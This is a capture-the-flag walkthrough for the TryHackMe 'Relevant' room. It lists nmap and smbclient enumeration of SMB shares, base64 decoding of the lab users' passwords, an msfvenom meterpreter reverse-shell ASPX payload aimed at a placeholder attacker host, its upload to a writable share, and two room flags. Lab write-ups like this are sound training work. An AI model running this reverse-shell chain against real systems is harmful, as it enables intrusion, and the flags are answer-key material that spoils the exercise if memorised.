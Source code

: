 <h1>Relevant</h1>
<h3>December 24, 2024</h3>

<br>

<br>

https://tryhackme.com/r/room/relevant

<br>

<br>
nmap -sC -sV -sS -Pn -p- -T4 [Target_IP]<br>

![image](https://github.com/user-attachments/assets/2b1695db-fe46-428b-bd11-a76d6644e989)


<br>

nt4wrksv

<br>

smbclient -L \\relevant.thm<br>

![image](https://github.com/user-attachments/assets/40ed588d-5c1e-42aa-9e7c-ee670fdf999c)

<br>

smbclient -L \\\\relevant.thm\\nt4wrksv<br>

![image](https://github.com/user-attachments/assets/9bdc76d8-9135-44d8-86f0-76c8ebffad62)

<br>

ls<br>

cat passwords.txt<br>
[User Passwords - Encoded]<br>
Qm9iIC0gIVBAJCRXMHJEITEyMw==<br>
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk<br>

<br>


![image](https://github.com/user-attachments/assets/d407eec0-9d53-4552-8ed6-c4aec0cff47b)

<br>

echo Qm9iIC0gIVBAJCRXMHJEITEyMw== | base64 -d<br>
Bob - !P@$$W0rD!123r<br><br>

<br>

![image](https://github.com/user-attachments/assets/718792f2-5f40-4c0e-8f59-938317aa67db)

<br>

![image](https://github.com/user-attachments/assets/ee2c2983-cae9-4730-98c3-2e061847e683)

<br>












THM{fdk4ka34vk346ksxfr21tg789ktf45}<br>

THM{1fk5kf469devly1gl320zafgl345pv}

![image](https://github.com/user-attachments/assets/cd4976bb-8f65-4683-9861-cae9f311d288)

<br>

![image](https://github.com/user-attachments/assets/ecde9507-0634-482e-b550-c755ef856d0c)

<br>

echo QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk | base64 -d<br>
Bill - Juw4nnaM4n420696969!<br>

![image](https://github.com/user-attachments/assets/e7d0bebe-9d54-478f-9fde-b528fd2a16ba)

<br>
<br>
Bob:!P@$$W0rD!123r<br>
Bill:Juw4nnaM4n420696969!<br>

<p>The network share from ‘nt4wrksv’ is writeable</p>

<br>
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=[Attack VM] lport=[Attack Port] -f aspx -o shell.aspx


![image](https://github.com/user-attachments/assets/c26bbeaa-d518-48f5-8f71-53313d5b859a)

<br>
put shell.aspx<br>


![image](https://github.com/user-attachments/assets/d06aa0f6-45e5-405e-84e1-a5e6e8669aca)


<br>
msfupdate<br>
msfconsole<br>
msf6><br>





Global: 826th all time, 121st monthly
Brazil: 18th all time2nd monthly
493 completed rooms . 55 badges . 65,045 points
<br>

![image](https://github.com/user-attachments/assets/adf7bef1-49c7-4f4e-ba05-43049f890788)
